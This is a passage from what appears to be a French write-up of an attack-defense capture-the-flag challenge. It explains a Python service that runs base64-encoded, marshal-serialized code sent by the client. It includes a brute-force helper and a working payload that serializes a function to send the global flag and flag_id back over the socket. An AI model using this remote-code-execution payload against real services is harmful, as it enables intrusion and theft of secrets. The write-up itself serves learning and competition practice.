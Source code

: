 En réalité, ce n'était pas si délicat :
  - la séquence de chiffre pouvait être bruteforcée
  - pour ne pas renvoyer tout le temps la même (nos exploits étant rejoués plusieurs fois), on pouvait se contenter de mélanger les chiffres la composant avec un `shuffle` (ou même en bruteforcer une autre, avec l'avantage d'éviter les patchs concernant notre suite de valeurs)
  - la ligne obscure a en gros pour effet d'exécuter du code python contenu dans data, c'est à dire des données que nous envoyons !

### Bruteforce
Une version stupide (ne checke pas qu'on a bien 9 chiffres distincts) :

    :::python
    def bruteforce(longueur=42, essais=1000000):
        for i in xrange(essais):
            entiers = (str(random.randint(1, 9)) for i in xrange(longueur))
            chaine = ','.join(entiers)
            if calculate(chaine):
                return chaine
    # ex : "1,1,4,5,1,6,9,7,6,8,9,1,7,3,1,7,9,2,5,3,3,1,2,8,1,3,5,2,2,2,4,1,9,1,6,2,8,6,2,1,1,2"

### La ligne obscure
Décortiquée, ça donne :

    :::python
    # data = clientsock.recv(1024)  # on reçoit max 1024 catactères
    data = base64.b64decode(data)  # ces données étaient encodées en base64, on les décode
    data = marshal.loads(data)  # ces données contenaient un objet python sérialisé, on le recrée
    fonction = types.FunctionType(data, globals(), "callback")
    fonction(clientsock) # on appelle la fonction nouvellement créée avec le socket en paramètre

La ligne non commentée a pour effet de créer une fonction dont le code du corps est `data` (`data` doit donc être un objet python de `<type 'code'>`), avec l'environnement `globals()` (autrement dit, cette fonction aura accès aux modules, variables et fonctions globales du programme). Pas compris à quoi servait le paramètre "callback" en revanche.

Cette fonction pourrait donc accéder aux variables globales `flag` et `flag_id` ! Et pour les envoyer, il suffit d'utiliser `clientsock` passé en paramètre :). Une fonction qui ferait le boulot qu'on veut serait :

    :::python
    def f(sock):  # sock == clientsock
        sock.send("{}#{}".format(flag, flag_id))

Il faut ensuite récupérer un *"objet python correspondant au code de cette fonction"*, le sérialiser à l'aide du module marshal, et l'encoder en base64.

    :::python
    import types, marshal, base64
    code = f.func_code  # merci SO : http://stackoverflow.com/a/10303539/2162761
    serialized = marshal.dumps(code)
    serialized_base64 = base64.b64encode(serialized)
